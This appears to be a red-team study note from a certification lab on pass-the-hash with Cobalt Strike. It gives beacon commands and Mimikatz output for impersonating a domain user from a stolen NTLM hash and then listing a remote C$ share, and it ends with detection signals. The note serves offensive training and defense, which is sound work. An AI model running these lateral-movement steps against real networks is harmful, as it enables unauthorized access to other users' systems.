 
Pass the hash is a technique that allows you to authenticate to a Windows service using the NTLM hash of a user's password. This means you get to log in or impersonate another user in your local beacon session.  

It works by starting a new logon session with a fake identity and then replacing the session information with the domain, username and NTLM hash provided.

## 🖊️ via [[Cobalt Strike]]

Beacon has a dedicated `pth` command which executes Mimikatz in the background. It requires elevated privileges.

1) Lets say you are currently a local admin but not a domain admin and want to list the contents of an external C drive.

```
beacon> getuid
[*] You are DEV\bfarmer (admin)

beacon> ls \\web.dev.cyberbotic.io\c$
[-] could not open \\web.dev.cyberbotic.io\c$\*: 5 - ERROR_ACCESS_DENIED
```

2) You won't be able to. Now, using [[Pass the Hash]] you can impersonate another user (which you collected its [[NetNTLM]] hash).

```
beacon> pth DEV\jking 59fc0f884922b4ce376051134c71e22c
user	: jking
domain	: DEV
program	: C:\Windows\system32\cmd.exe /c echo 71fb38e2d65 > \\.\pipe\675b08
impers.	: no
NTLM	: 59fc0f884922b4ce376051134c71e22c
  |  PID  1932
  |  TID  6600
  |  LSA Process is now R/W
  |  LUID 0 ; 7479840 (00000000:00722220)
  \_ msv1_0   - data copy @ 000001F6344B3D20 : OK !
  \_ kerberos - data copy @ 000001F6345BD7C8
   \_ aes256_hmac       -> null             
   \_ aes128_hmac       -> null             
   \_ rc4_hmac_nt       OK
   \_ rc4_hmac_old      OK
   \_ rc4_md4           OK
   \_ rc4_hmac_nt_exp   OK
   \_ rc4_hmac_old_exp  OK
   \_ *Password replace @ 000001F6344C6128 (32) -> null
```

3) Now you are impersonating (in the same beacon session) another user with other privileges. In this example we get to list the contents since we have jking privs

```
beacon> ls \\web.dev.cyberbotic.io\c$
[*] Listing: \\web.dev.cyberbotic.io\c$\

 Size     Type    Last Modified         Name
 ----     ----    -------------         ----
          dir     08/15/2022 18:50:13   $Recycle.Bin
          dir     08/10/2022 04:55:17   $WinREAgent
          dir     08/10/2022 05:05:53   Boot
```

4) To "drop" impersonation afterwards, use the `rev2self` command.
```
beacon> rev2self
[*] Tasked beacon to revert token
```


### ⚠ Opsec

Two opportunities to detect PTH are the R/W handle to LSASS; and looking for the `echo foo > \\.\pipe\bar` pattern in command-line logs.



### Properties
---
📆 created   {{11-02-2024}} 20:21
🏷️ tags: #redteam #crto 

---

